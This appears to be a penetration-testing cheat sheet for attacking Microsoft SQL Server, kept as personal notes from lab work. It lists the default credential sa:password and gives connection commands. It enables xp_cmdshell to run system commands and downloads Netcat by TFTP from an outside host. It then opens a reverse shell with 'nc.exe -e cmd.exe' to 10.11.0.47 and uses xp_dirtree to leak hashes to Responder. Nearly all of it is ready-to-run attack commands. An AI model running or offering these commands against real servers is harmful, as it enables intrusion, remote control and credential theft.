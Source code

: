 ### Default credential
• sa:password  
  

### Connection
```bash
# Connections:
# Connecting to ms-sql (impacket library used):
mssqlclient.py <user>@10.10.10.10 -windows-auth
sqsh -S 10.10.10.10 -U <username> -P <password>
 
# Create a connection with the MSSQL Server instance:
# We need to add the following elements to the "/etc/freetds/freetds.conf" file:
[sqlserver-10.10.10.10]
    host = 10.10.10.10
    port = 3333
    tds = 8.0

# We also have to modify the "~/.sqshrc" file:
\set username=sa
\set password=password
\set style=vert

# We can now connect to the remote SQL server using the following command:
sqsh -S sqlserver-10.11.1.227  

# Basics MSSQL commands:
SELECT name FROM master..sysdatabases
go

use bankdb
go

SELECT Distinct TABLE_NAME FROM informations_schema.TABLES
go


# Execute Shell commands using MSSQL:
# Activate code execution:
EXEC SP_CONFIGURE ‘xp_cmdshell’,1
reconfigure
go

# We can also execute system commands on the remote machine using the "master.dbo.xp_cmdshell".
EXEC master.dbo.xp_cmdshell 'whoami'
go

# For example, we can download Netcat through TFTP:
EXEC master.dbo.xp_cmdshell 'cd c:\ && tftp -i 10.11.0.47 get nc.exe'
go

# We can now execute netcat to get a reverse shell:
EXEC master.dbo.xp_cmdshell 'cd c:\ && nc.exe -nv 10.11.0.47 443 -e cmd.exe'
go

# Using SQLCMD (localhost) -> TO CHECK (Monteverde):
# Show databases
sqlcmd -Q “select name, create_date from sys.databases”

# Good way to get a password
# To use with responder
Sqlcmd -Q “xp_dirtree ‘\\<IP>\\test’”
```
  